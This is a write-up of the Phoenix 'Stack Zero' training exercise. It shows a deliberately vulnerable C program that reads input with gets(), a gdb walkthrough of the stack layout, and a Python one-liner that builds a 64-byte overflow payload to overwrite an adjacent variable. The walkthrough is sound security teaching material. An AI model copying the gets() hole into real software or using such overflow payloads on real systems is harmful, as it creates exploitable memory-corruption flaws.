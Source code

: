 ## Stack Zero
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source Code
```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
> For those unfamiliar with the `volatile` keyword, it tells the compiler not to run optimizations on the integer `changeme`.
## Challenge
The aim is to change the contents of the `changeme` variable.

## Solution
### Dry Run
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
vi11ain
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```
As in the source-code,
1. Print banner with `puts()`
2. Receive user input to `locals.buffer` using `gets()`
3. Check `locals.changeme` and print output using `puts()` accordingly

### The Plan
Using `gets()` for user input is a dangerous practice,
> Never use gets().
> Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.
> -gets(3), man

We can leverage it for a buffer overflow, running over, and changing, the value of `locals.changeme`.

### Debugging
This level is very straight forward and does not require debugging, but we'll use `gdb` just to make sure we understand what happens.
```console
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-zero
```

I like to start by listing functions and putting a breakpoint in `main()`.
```console
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400408  _init
0x0000000000400430  gets@plt
0x0000000000400440  puts@plt
0x0000000000400450  exit@plt
0x0000000000400460  __libc_start_main@plt
0x0000000000400470  _start
0x0000000000400486  _start_c
0x00000000004004b0  deregister_tm_clones
0x00000000004004e0  register_tm_clones
0x0000000000400520  __do_global_dtors_aux
0x00000000004005b0  frame_dummy
0x00000000004005dd  main
0x0000000000400630  __do_global_ctors_aux
0x0000000000400672  _fini
(gdb) b main
Breakpoint 1 at 0x4005e1
```

Now we can run the executable.

![](/images/stack-0/0.png)
Notice we approach the first call to `puts()`.

Add a breakpoint to after the call and continue until it.
```console
(gdb) b *main+25
Breakpoint 6 at 0x4005f6
```

![](/images/stack-0/1.png)
1. `0` is written to the `dword` (4 bytes) pointed by `[rbp-0x10]`, on the stack, this is `locals.changeme`
2. The address of `[rbp-0x50]`, `locals.buffer`, is moved to the register `rdi` (by convention in x64, this register acts as the first integer/pointer parameter to a function)
3. `gets(locals.buffer)` is called
5. And finally, we can see the check for `[rbp-0x10]`, `locals.changeme != 0`.

Use `GEF`'s `hexdump` to see the value of our variables in the stack.

![](/images/stack-0/2.png)

### Breaking it

So if we write more than 64 bytes (the size of `locals.buffer`) we will overwrite `locals.changeme` with a value of our choice.

We are not going to type 64 bytes by ourselves, this is what we have computers for,
```console
user@phoenix-amd64:~$ python3 -c "with open('exploit', 'wb') as f: f.write(b'a'*64 + b'\xDE\xAD\xBE\xEF')"
user@phoenix-amd64:~$ hexdump -C exploit
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000040  de ad be ef                                       |....|
00000044
```
This input will write 64 `a` chars to fill `locals.buffer`, and a special `dword` - `0xDEADBEEF` to `locals.changeme`.

Re-run the program, this time with our payload redirected to it's `stdin`.
But before we do so, clear the breakpoints and set a new one to after `gets(locals.buffer)`.
```console
(gdb) d breakpoints
(gdb) b *main+44
Breakpoint 7 at 0x400609
(gdb) run < /home/user/exploit
```

Now `hexdump` once again just to check our input worked as expected.

![](/images/stack-0/3.png)

Continue (`c`) to let the program resume execution.
```console
(gdb) c
Continuing.
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 930) exited normally]
```

🥳

